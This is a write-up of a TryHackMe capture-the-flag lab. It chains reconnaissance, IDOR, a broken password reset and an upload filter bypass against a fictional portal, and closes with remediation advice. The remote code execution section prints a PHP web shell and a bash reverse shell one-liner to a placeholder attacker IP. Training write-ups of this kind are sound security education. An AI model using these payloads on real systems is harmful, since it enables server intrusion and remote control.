









# Guided Pentest: Web

## Room Summary

This room walks through a full web application penetration test against **RecruitX**, a fictional internal recruitment portal. Starting with no credentials and no knowledge of the target, the engagement moves from reconnaissance to remote code execution on the underlying server.

The key lesson is that no single vulnerability led to full compromise. Four moderate weaknesses, chained together, did: an exposed API, an IDOR, a broken password reset flow, and an incomplete upload filter.

> This write-up documents methodology and lessons learned. The flag is intentionally excluded and redacted from screenshots.

## Objectives

- Enumerate the target's services, technology stack, directories, and API endpoints.
- Identify and exploit an Insecure Direct Object Reference (IDOR) to enumerate users.
- Abuse a weak password reset mechanism to take over the administrator account.
- Bypass a client-side and blocklist-based file upload filter.
- Achieve remote code execution with a web shell, then upgrade to a reverse shell.
- Document findings with severity ratings and remediation advice.

## Attack Chain

| Step | Vulnerability | Result |
|---|---|---|
| 1 | API endpoint disclosure | Internal API routes visible without login |
| 2 | IDOR on `/profile.php?id=` and `/api/user?id=` | Every user's name, email, and role, including the admin |
| 3 | Reset token displayed in the response | Administrator account takeover |
| 4 | Upload filter blocks `.php` only | PHP web shell via `.phtml`, then a reverse shell |

**Tools used:** Nmap, cURL, Gobuster, Firefox DevTools, Netcat

## Methodology

### 1. Reconnaissance

**Port scan:**

```bash
nmap -sV -sC -p- -Pn <TARGET_IP> --min-rate=2000
```

- `-sV`: detect service versions
- `-sC`: run Nmap's default scripts
- `-p-`: scan all 65,535 ports
- `-Pn`: skip host discovery
- `--min-rate=2000`: speed up the scan



| Port | Service | Notes |
|---|---|---|
| 22 | SSH (OpenSSH 9.6p1) | Useful later if credentials are found |
| 80 | HTTP (Apache 2.4.58) | RecruitX application, main target |
| 3306 | MySQL | Backend database |
| 8080 | HTTP (Apache default page) | Nothing of interest |

Nmap also flagged that the `PHPSESSID` cookie is missing the `HttpOnly` flag, which would allow JavaScript to read the session cookie if an XSS vulnerability existed.

**Headers and API:**

```bash
curl -I http://<TARGET_IP>
curl http://<TARGET_IP>/api/
```



- The `Server` header and `PHPSESSID` cookie confirm a **LAMP** stack (Linux, Apache, MySQL, PHP).
- `/api/` lists all of its routes (`/api/user`, `/api/jobs`, `/api/applications`) to unauthenticated users, an **information disclosure** issue.

**Directory enumeration:**

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://<TARGET_IP> -x php
```



Paths worth investigating: `/admin`, `/api`, `/reset.php`, `/uploads`, `/profile.php`, `/dashboard.php`. Each one became a step in the attack chain.

### 2. IDOR and user enumeration

After logging in with the provided test account, the profile URL was `/profile.php?id=6`. Changing the `id` returned other users' profiles. The API had the same flaw and did not require a session at all:

```bash
curl -s "http://<TARGET_IP>/api/user?id=1"
```



Iterating through IDs 1 to 6 revealed every account, including the administrator's name and email. The server never checks whether the requested object belongs to the logged-in user.

### 3. Weak password reset

Testing `/reset.php` with my own account showed that the reset token is **displayed directly in the response** instead of being emailed. The token is also only six digits long, and there is no rate limiting.

Requesting a reset for the administrator's email returned a token and a ready-made reset link. Following it allowed me to set a new password and log in as the administrator.

### 4. Upload filter bypass

The admin panel exposes `/admin/upload.php`. Inspecting the form showed:

```html
<input type="file" name="document" accept=".pdf,.docx,.jpg,.png" required>
```

The `accept` attribute is a browser-side restriction only and was removed in DevTools. Testing the server-side filter:

| File | Result |
|---|---|
| `test.txt` | Rejected |
| `test.php` | Rejected |
| `test.phtml` | **Accepted** |



The server uses a **blocklist** that blocks `.php` but misses `.phtml`, which Apache still executes as PHP. Uploaded files are stored in `/uploads/documents/`.

### 5. Remote code execution

**Web shell** (`shell.phtml`):

```php
<?php
if(isset($_GET['cmd'])) {
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
}
?>
```

```bash
curl "http://<TARGET_IP>/uploads/documents/shell.phtml?cmd=id"
curl "http://<TARGET_IP>/uploads/documents/shell.phtml?cmd=uname+-a"
```



Commands ran as `www-data`. Reading `/etc/passwd` and filtering out `nologin` accounts showed `root`, `ubuntu`, and an additional `qa` user with a bash shell, a candidate for privilege escalation.

**Reverse shell:**

```bash
# Terminal 1
nc -lvnp 4444

# Terminal 2 (& is URL-encoded as %26)
curl "http://<TARGET_IP>/uploads/documents/shell.phtml?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/<ATTACKER_IP>/4444+0>%261'"
```





The connection returned an interactive shell as `www-data`, which was used to read the flag file in `/var/www/`.

> **Lesson from a mistake:** my first attempt failed with `Could not resolve host` because I left the `MACHINE_IP` placeholder in the command. Always check placeholders before running a payload.

## Findings and Remediation

| Vulnerability | Severity | Remediation |
|---|---|---|
| IDOR on profiles and API | **High** | Enforce server-side authorization on every request for every object. |
| Reset token exposed in response | **Critical** | Send tokens only by email, show a generic message, use long random tokens, and add rate limiting. |
| Incomplete extension blocklist | **Critical** | Use an allowlist, validate MIME type, and store uploads outside the web root. |
| API endpoint disclosure | **Medium** | Remove the API index or restrict it to authenticated administrators. |
| Missing `HttpOnly` cookie flag | **Low** | Set `HttpOnly` and `Secure` on session cookies. |

## Skills Gained

- Service, header, and directory enumeration with Nmap, cURL, and Gobuster
- Identifying and exploiting IDOR in web pages and REST APIs
- Analysing password reset flows for design flaws
- Bypassing client-side and blocklist-based upload restrictions
- Building a PHP web shell and upgrading to a reverse shell
- Writing findings with severity and remediation in report format

## Key Takeaways

1. **Enumeration decides everything.** Every exploited weakness was visible during recon first.
2. **Small flaws chain into big compromises.** None of these issues was complex on its own.
3. **Client-side restrictions are not security.** Removing `accept` took one click.
4. **Blocklists miss things.** Allowlists are safer.
5. **Think like an attacker, report like a consultant.** Clear remediation is what makes the work useful to the client.

## Completion Evidence



## References

- TryHackMe: Guided Pentest: Web (Jr Penetration Tester path, Penetration Testing Foundations module)
- [OWASP: Insecure Direct Object Reference Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Insecure_Direct_Object_Reference_Prevention_Cheat_Sheet.html)
- [OWASP: Forgot Password Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Forgot_Password_Cheat_Sheet.html)
- [OWASP: File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
